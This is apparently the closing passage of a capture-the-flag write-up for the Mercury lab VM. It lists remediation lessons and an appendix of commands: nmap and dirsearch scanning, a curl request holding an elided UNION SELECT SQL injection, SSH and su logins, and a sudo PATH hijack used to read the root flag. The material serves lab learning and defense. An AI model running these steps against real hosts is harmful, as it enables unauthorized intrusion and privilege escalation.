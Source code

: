 
# SECTION 6 --- LESSONS LEARNED & REMEDIATION

* DEBUG=True is lethal — never leave it in production.
* Developer notes with creds? Delete them. Always.
* Sudo scripts running binaries without full paths? Path hijack city.
* SQLi still works if ORM/sanitization ignored → parametrize queries.
* Always audit SUID scripts, hard-coded passwords, and writable PATH directories.

---

# SECTION 7 --- APPENDIX: TOOLS & COMMANDS

**Tools used:**

* nmap, arp-scan
* curl
* dirsearch
* ssh, su, sudo
* /bin/bash

**Useful commands:**

```bash
sudo nmap -sC -sV -A 192.168.1.107
dirsearch -u http://192.168.1.107:8080/mercuryfacts -w /usr/share/wordlists/dirb/big.txt
curl -s -k -L "http://192.168.1.107:8080/mercuryfacts/0 UNION SELECT ..."
ssh webmaster@192.168.1.107
su - linuxmaster
sudo PATH=/tmp:$PATH /usr/bin/check_syslog.sh
cat /root/root_flag.txt
```

**FINAL ETHICAL REMINDER:**
Everything here was tested in a lab VM. Do not try this on any network you do not own or have explicit permission to test. Responsible disclosure is sexy. 😎

Snapshot: From nmap to SQLi, to SSH, to PATH hijack — Mercury VM taught three things: devs leave secrets lying around, debug pages are dangerous, and PATH hijacks are still hilarious. Root flag captured. 💀🎉
